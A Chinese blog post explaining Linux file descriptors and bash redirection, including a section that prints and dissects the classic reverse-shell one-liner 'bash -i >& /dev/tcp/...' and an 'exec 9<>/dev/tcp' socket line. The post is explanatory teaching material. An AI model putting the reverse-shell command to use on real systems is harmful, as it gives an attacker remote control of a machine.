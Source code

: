```yaml
---
layout: post
title: Linux I/O重定向
---
```


## Info
Linux中重定向是很有趣的一部分，今天就在这进行一下整理。

### 标准I/O
Linux中每个进程都有STDIN、STDOUT和STDERR中三种标准I/O，相应的，几乎所有语言都有标准的I/O函数。

### 文件描述符
对于Linux来说，每一个打开的文件都对应着一个文件描述符（File Descriptor， 简称FD）。内核维护一个File descriptor table，该表已FD为索引，指向维护所有进程所打开文件的File table， 该表记录了文件打开的模式，而该表又指向Inode table，也就是实际的文件：

![Alt text](/images/file_table_and_inode_table.png)

当进程需要访问文件时，首先把FD传给内核，内核根据FD在文件描述符表中找到实际指向的文件并进行操作，再将操作完成后的FD传给进程，整个过程进程并不直接操作文件。

在进程创建时，进程默认拥有0、1和2三个FD，分别指向STDIN、STDOUT和STDERR。

### 重定向
在Linux中，重定向实际定向的是File descriptor table的指向。进程只关心FD，而并不关心FD所索引的表项所指向的具体文件。

### Bash Redirection
bash中使用`>`等符号来进行重定向，[基本用法请看这里](http://www.cnblogs.com/zhoug2020/archive/2012/06/26/2563117.html)，下面以两个例子介绍几个特殊用法以及注意事项：

#### 0x00

```bash
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

经典的一句话反弹shell，首先利用`>&`将bash的STDOUT和STDERR重定向到`/dev/tcp/127.0.0.1/8080`这个文件中，这是bash所维护的仅用于重定向中的一个特殊文件，当对此文件进行输入时，如果目标地址可达，则与目标建立socket连接。接着再执行`0>&1`，将bash的STDIN重定向到STDOUT的位置，因为此时STDOUT目前被重定向到上述文件中，从而使STDIN也重定向到同一文件，最后攻击方可同时获得bash的输入输出。

值得注意的有以下几点：

- 为何不是`0>1`而是`0>&1`，因为加上`&`代表1为FD，不加则为一个文件名
- 重定向执行的顺序很重要，若先执行`0>&1`，在`... >& ...`后STDIN依旧指向的是之前STDOUT的位置，并没有重定向到连接上。

#### 0x01

```bash
exec 9<>/dev/tcp/127.0.0.1/8080
```

此处打开文件，并利用9作为FD对其进行输入和输出。需要注意的是尽量不要使用大于9的FD进行重定向，有可能跟bash自己拥有的FD冲突。

